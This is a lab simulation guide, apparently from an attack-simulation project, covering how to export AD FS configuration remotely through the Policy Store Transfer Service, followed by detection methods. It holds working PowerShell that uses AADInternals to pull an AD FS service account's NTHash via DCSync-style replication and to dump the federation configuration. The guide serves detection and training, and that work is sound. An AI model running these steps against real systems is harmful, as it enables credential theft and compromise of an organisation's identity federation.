






Export AD FS Configuration via Policy Store Transfer Service
Contents
Export AD FS Configuration via Policy Store Transfer Service¶
Based on recent research by Dr. Nestori Syynimaa, a threat actor could use AD FS synchronization (Replication services) and pretend to be a secondary federation server to retrieve the AD FS configuration settings remotely from the primary federation server.
Legitimate secondary federation servers store a read-only copy of the AD FS configuration database and connect to and synchronize the data with the primary federation server in the AD FS farm by polling it at regular intervals to check whether data has changed. A threat actor could use SOAP messages (XML documents) to request/sync AD FS configuration settings over a Windows Communication Foundation (WFC) service named Policy Store transfer Service on the federation primary server. This service can be accessed via the following URL over HTTP:
http://<AD FS Server Name>:80/adfs/services/policystoretransfer
Table of Contents¶
Preconditions¶
Integrity level: medium
Authorization:
Resource: AD FS Database
Identity:
AD FS Service Account
Local Administrator
AD FS Server
Services:
Active Directory Federation Services (ADFSSRV)
Network:
URL:
http://<adfs server name>:80/adfs/services/policystoretransferPort: 80
Simulation Steps¶
For this remote variation, we can use use AADInternals with the following information:
IP Address or FQDN of the AD FS server
NTHash of the AD FS service account
SID of the AD FS service account
Log onto a domain joined workstation¶
Connect to one of the domain joined workstations in the network via the Azure Bastion service as a domain admin account (e.g. pgustavo).
Get Object GUID and SID of the AD FS Service Account¶
Open PowerShell as Administrator
Use the Active Directory Service Interfaces (ADSI) to search for the AD FS service account object in the domain controller. Make sure you use the name of the
AD FS service accountyou created for the lab environment (e.g. adfsadmin).
$AdfsServiceAccount = 'adfsadmin'
$AdfsAdmin = ([adsisearcher]"(&(ObjectClass=user)(samaccountname=$AdfsServiceAccount))").FindOne()
$Object = New-Object PSObject -Property @{
Samaccountname = ($AdfsAdmin.Properties).samaccountname
ObjectGuid = ([guid]($AdfsAdmin.Properties).objectguid[0]).guid
ObjectSid = (new-object System.Security.Principal.SecurityIdentifier ($AdfsAdmin.Properties).objectsid[0],0).Value
}
$Object | Format-List

Install AADInternals¶
On the same elevated PowerShell session, run the following commands to install AADInternals if it is not installed yet:
Install-Module –Name AADInternals -Force
Import-Module –Name AADInternals
Get NTHash of AD FS Service Account via Directory Replication Services (DSR)¶
Get the NTHash of the AD FS service account. AADInternals accomplishes this via Active Directory Replication Services (DRS) with the Get-AADIntADUserNTHash function. Make sure you set the right name for the domain controller in your environment (
$Server).
$Server = 'DC01.simulandlabs.com'
$creds = Get-Credential
$NTHash = Get-AADIntADUserNTHash –ObjectGuid $Object.ObjectGuid –Credentials $creds –Server $Server -AsHex
$NTHash

Get AD FS Configuration Settings Remotely¶
Finally, we can use all the previous information to export the AD FS configuration settings remotely. Make sure you set the right name for the AD FS server in your environment (
$ADFSServer).
$ADFSServer = "ADFS01.simulandlabs.com"
$settings = Export-AADIntADFSConfiguration -Hash $NTHash -SID $Object.ObjectSid -Server $ADFSServer
$settings

Detection¶
Detect AD FS Remote Synchronization Network Connection¶
The replication channel used to connect to the AD FS server is over port 80. Therefore, we can monitor for incoming network traffic to the AD FS server over HTTP with Sysmon event id 3 (NetworkConnect). For an environment with only one server in the AD FS farm, it is rare to see incoming connections over standard HTTP port from workstations in the network.

Another behavior that we could monitor is the authorization check enforced by the AD FS replication service on the main federation server. We can use security events 412 and 501 from the AD FS auditing event provider to capture this behavior. These two events can be joined on the Instance ID value for additional context and to filter out other authentication events.

Azure Sentinel Detection Rules¶
Detect Active Directory Replication Services¶
Even though the use of directory replication services (DRS) is not part of the core behavior to extract the AD FS configuration settings remotely, it is an additional step taken by tools such as AADInternals to get the NTHash of the AD FS user account to access the AD FS database remotely.
Microsoft Defender for Identity Alerts¶
Suspected DCSync attack (replication of directory services)
The Microsoft Defender for Identity (MDI) sensor, installed on the domain controller, triggers an alert when this occurs. MDI detects non-domain controllers using Directory Replication Services (DRS) to sync information from the domain controller.
Navigate to Microsoft 365 Security Center.
Go to
More Resourcesand click onAzure Advanced Threat Protection.

Microsoft Cloud Application Security Alerts¶
Suspected DCSync attack (replication of directory services)
You can also see the same alert in the Microsoft Cloud Application Security (MCAS) portal. The MCAS portal is considered the new investigation experience for MDI.
Navigate to Microsoft 365 Security Center
Go to “More Resources” and click on “Microsoft Cloud App Security”.

Output¶
AD FS Configuration Settings